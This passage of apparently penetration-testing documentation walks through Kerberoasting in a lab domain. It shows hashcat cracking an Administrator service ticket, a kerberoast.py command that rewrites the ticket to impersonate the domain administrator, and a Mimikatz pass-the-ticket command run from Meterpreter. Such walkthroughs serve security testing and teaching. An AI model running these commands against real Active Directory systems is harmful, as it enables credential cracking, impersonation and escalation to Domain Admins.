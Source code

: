 ```
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: $krb5tgs$23$*1-40a10000-Administrator@HTTP~testServ...c115e3
Time.Started.....: Tue Jan 10 07:41:11 2023 (0 secs)
Time.Estimated...: Tue Jan 10 07:41:11 2023 (0 secs)
Guess.Base.......: File (wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       26 H/s (0.03ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 3/3 (100.00%)
Rejected.........: 0/3 (0.00%)
Candidates.1.....: test123  -> N0tpassword!
```

If you want to view the hash + cracked password at a later date run the above command with `--show` appended.

```
msfuser@ubuntu:~/git/kerberoast$ hashcat -m 13100 --force -a 0 hash.txt wordlist.txt --show
$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
<truncated due to size>
39efa046757894679beba5b296fe0cdc11100b9a536264cb5e3cb3c6d0426acaa7dd3928895d32973fab2695476093ddbd087c115e3:N0tpassword!
```

**Rewrite Service Tickets & RAM Injection**

Kerberos tickets are signed with the NTLM hash of the password. If the ticket hash has been cracked then it is possible
to rewrite the ticket with [Kerberoast](https://github.com/nidem/kerberoast) python script. This tactic will allow users
to impersonate any domain user or a fake account when the service is going to be accessed. Additionally privilege
escalation is also possible as the user can be added into an elevated group such as Domain Admins.

```
➜  kerberoast git:(master) ✗ python3  kerberoast.py -p N0tpassword! -r 1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi -w Administrator.kirbi -u 500
```

The new ticket can be injected back into the memory with the following Mimikatz command in order to perform
authentication with the targeted service via Kerberos protocol.

```msf
meterpreter > kiwi_cmd kerberos::ptt Administrator.kirbi
```
